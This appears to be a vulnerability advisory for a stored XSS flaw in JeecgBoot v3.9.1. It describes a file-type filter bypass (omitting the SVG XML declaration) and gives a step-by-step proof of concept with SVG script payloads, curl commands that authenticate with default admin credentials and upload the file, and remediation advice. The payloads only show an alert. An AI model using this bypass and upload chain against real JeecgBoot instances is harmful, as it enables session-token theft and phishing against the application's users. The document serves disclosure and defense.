

# V-006: SVG Stored XSS via File Upload

## Vulnerability Information

| Item | Detail |
|------|--------|
| Product | JeecgBoot |
| Version | v3.9.1 (and all prior versions) |
| Type | CWE-79: Improper Neutralization of Input During Web Page Generation (Stored XSS) |
| Severity | Medium |
| Attack Vector | Network (Authenticated) |

## Description

JeecgBoot allows authenticated users to upload SVG files containing JavaScript code via the `/sys/common/upload` endpoint. The uploaded SVG files are served back to users with `Content-Type: image/svg+xml` through the Spring static resource handler, causing the embedded JavaScript to execute in the victim's browser context.

### File Type Filter Bypass

The `SsrfFileTypeFilter` has a critical bug in its file header detection: it compares only the first 5 hex characters of the file header against dangerous signatures. Since SVG files with an XML declaration (`<?xml`) start with hex `3c3f78`, which partially matches PHP's signature (`3c3f70`), the filter incorrectly blocks standard SVG files as "php".

**Bypass:** Simply omit the `<?xml` declaration from the SVG file. The SVG specification does not require it, and the file will pass both the header check and the whitelist check (SVG is explicitly whitelisted).

### Two Serving Paths

1. **`/sys/common/static/{path}`** - Forces download (`Content-Disposition: attachment`) - **NOT vulnerable**
2. **Spring resource handler `/{filename}`** - Serves inline with correct MIME type (`image/svg+xml`) - **VULNERABLE**

The Spring `WebMvcConfiguration` maps `/**` to the upload directory via `addResourceHandlers()`, serving files with their native MIME types. This path has no authentication requirement.

## Affected Files

- `jeecg-module-system/jeecg-system-biz/src/main/java/org/jeecg/modules/system/controller/CommonController.java` - Upload endpoint
- `jeecg-boot-base-core/src/main/java/org/jeecg/common/util/filter/SsrfFileTypeFilter.java` - Flawed file type filter
- `jeecg-boot-base-core/src/main/java/org/jeecg/config/WebMvcConfiguration.java` - Static resource handler serving uploaded files inline

## Impact

1. **Stored XSS**: Malicious JavaScript executes in any user's browser who visits the SVG URL
2. **Session hijacking**: Attacker can steal JWT tokens from `localStorage`/cookies
3. **No authentication required to trigger**: The SVG URL via Spring resource handler is publicly accessible
4. **Phishing**: SVG can render arbitrary HTML content within the application's origin

## Proof of Concept

### Step 1: Create Malicious SVG File

Create `xss.svg` (without `<?xml` declaration to bypass the filter):

```xml
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">
  <circle cx="50" cy="50" r="40" fill="red"/>
  <script type="text/javascript">alert("XSS-CVE-TEST")</script>
</svg>
```

### Step 2: Upload SVG File (Requires Authentication)

```bash
# Get auth token
TOKEN=$(curl -s -X POST http://<target>:8080/jeecg-boot/sys/mLogin \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"123456"}' | \
  grep -o '"token":"[^"]*"' | head -1 | cut -d'"' -f4)

# Upload SVG
curl -s -X POST "http://<target>:8080/jeecg-boot/sys/common/upload" \
  -H "X-Access-Token: ${TOKEN}" \
  -F "file=@xss.svg;type=image/svg+xml"
```

**Response:**
```json
{"success":true,"message":"test_xss3_1776073184530.svg","code":0,"result":null,"timestamp":1776073184517}
```

### Step 3: Access SVG via Spring Resource Handler (No Authentication)

```bash
curl -I "http://<target>:8080/jeecg-boot/test_xss3_1776073184530.svg"
```

**Response Headers:**
```
HTTP/1.1 200
Content-Type: image/svg+xml
Content-Length: 179
Cache-Control: max-age=2592000
```

### Step 4: Trigger XSS

Open the SVG URL in a browser:
```
http://<target>:8080/jeecg-boot/test_xss3_1776073184530.svg
```

The browser renders the SVG and executes `alert("XSS-CVE-TEST")`.

## Verification Results

### Upload Response
```json
{"success":true,"message":"test_xss3_1776073184530.svg","code":0,"result":null,"timestamp":1776073184517}
```

### Response Headers Confirming Inline SVG Rendering
```
HTTP/1.1 200 
Content-Type: image/svg+xml
Content-Length: 179
Accept-Ranges: bytes
Cache-Control: max-age=2592000
```

Key indicators:
- `Content-Type: image/svg+xml` - Browser will render SVG and execute embedded scripts
- No `Content-Disposition: attachment` - File is rendered inline, not downloaded
- No `Content-Security-Policy` header - No CSP to block inline scripts
- `Cache-Control: max-age=2592000` - SVG is cached for 30 days, extending attack window

### Filter Bypass Detail

Standard SVG with `<?xml version="1.0"?>` header:
```json
{"success":false,"message":"上传失败，存在非法文件类型：php","code":500}
```

SVG without `<?xml` declaration (bypass):
```json
{"success":true,"message":"test_xss3_1776073184530.svg","code":0}
```

## Remediation

1. Add `Content-Disposition: attachment` for all user-uploaded files served via the Spring resource handler
2. Add `Content-Security-Policy: default-src 'none'` header for uploaded file responses
3. Sanitize SVG files on upload (strip `<script>`, event handlers, etc.)
4. Fix `SsrfFileTypeFilter.getFileType()` to use longer signature matching (at least 8 hex chars) to avoid false positives with XML-based formats
5. Serve uploaded files from a separate domain/subdomain to isolate XSS impact

## Screenshots



浏览器访问上传的 SVG 文件后弹出 `alert("XSS-CVE-TEST-JeecgBoot-v3.9.1")`，证明 JavaScript 在目标域上下文中执行。

### Payload

```xml
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 200 200">
  <rect width="200" height="200" fill="#f0f0f0"/>
  <text x="20" y="100" font-size="16" fill="red">XSS Vulnerability Demo</text>
  <script type="text/javascript">alert("XSS-CVE-TEST-JeecgBoot-v3.9.1")</script>
</svg>
```

注意：必须去掉 `<?xml version="1.0"?>` 声明以绕过 `SsrfFileTypeFilter` 的误判（`3c3f` 匹配 PHP 签名）。

## Verification Environment

- Target: JeecgBoot v3.9.1 deployed via Docker on 192.168.217.135:18080
- Tools: curl, Edge browser
- Date: 2026-04-13
